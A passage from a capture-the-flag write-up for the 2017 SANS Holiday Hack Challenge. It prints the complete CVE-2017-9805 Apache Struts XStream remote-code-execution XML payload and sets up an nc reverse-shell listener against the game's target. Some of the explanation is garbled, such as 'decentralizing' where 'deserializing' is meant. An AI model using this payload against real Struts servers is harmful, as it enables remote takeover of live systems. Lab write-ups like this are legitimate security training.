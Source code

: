 The new dev site that was uncovered was interesting, as it immediately redirected to a sub page at https://dev.northpolechristmastown.com/orders.xhtml

The trail end of this address is promising as is seems to be serving up `xhtml`. Before moving on I also checked the source code of this page and found another interesting comment from the developers.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge01-struts-exploit-comment.jpg" />

I can smell a struts exploit coming up!

After trying a couple different more [mainstream CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-6117/Apache-Struts.html) like [CVE-2017-5638](https://www.cvedetails.com/cve/CVE-2017-5638/) and [CVE-2016-4461](https://www.cvedetails.com/cve/CVE-2016-4461/) I decided to turn my attention on whether the `xhtml` was exploited in any CVEs.

I came across a [SANS blog post](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code) that detailed the [CVE-2017-9805](https://www.rapid7.com/db/vulnerabilities/struts-cve-2017-9805) exploit and how it could be used to manipulate the Apache Struts 2 REST Plugin XStream RCE into decentralizing specially crafted HTTP requests and achieving remote code execution.

The concept behind this exploit is quite simple, while we can't directly encode a command in the XML structure we can encode it in base64. The REST plugin **decode and execute** our command unwillingly due to no checks on encoded special characters.

The core XML to this exploite can be seen below, where out custom command replaces the `COMMANDWILLGOHERE` field

```python
xml_exploit =  parseString('<map><entry><jdk.nashorn.internal.objects.NativeString><flags>0</flags><value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"><dataHandler><dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"><is class="javax.crypto.CipherInputStream"><cipher class="javax.crypto.NullCipher"><initialized>false</initialized><opmode>0</opmode><serviceIterator class="javax.imageio.spi.FilterIterator"><iter class="javax.imageio.spi.FilterIterator"><iter class="java.util.Collections$EmptyIterator"/><next class="java.lang.ProcessBuilder"><command><string>/bin/bash</string><string>-c</string><string>COMMANDWILLGOHERE</string></command><redirectErrorStream>false</redirectErrorStream></next></iter><filter class="javax.imageio.ImageIO$ContainsFilter"><method><class>java.lang.ProcessBuilder</class><name>start</name><parameter-types/></method><name>foo</name></filter><next class="string">foo</next></serviceIterator><lock/></cipher><input class="java.lang.ProcessBuilder$NullInputStream"/><ibuffer/><done>false</done><ostart>0</ostart><ofinish>0</ofinish><closed>false</closed></is><consumed>false</consumed></dataSource><transferFlavors/></dataHandler><dataLen>0</dataLen></value></jdk.nashorn.internal.objects.NativeString><jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/></entry><entry><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/></entry></map>')
```

The repo available [here](https://github.com/chrisjd20/cve-2017-9805.py/blob/master/cve-2017-9805.py) was the exploit I deceided to go with in order to compromise the system.

I set up a reverse shell listener with `nc` using the following command on my local system on port 9001. This would be the port the remote system would be forced to connect back to me over

```bash
$ nc -l -p 9001 -vvv
```

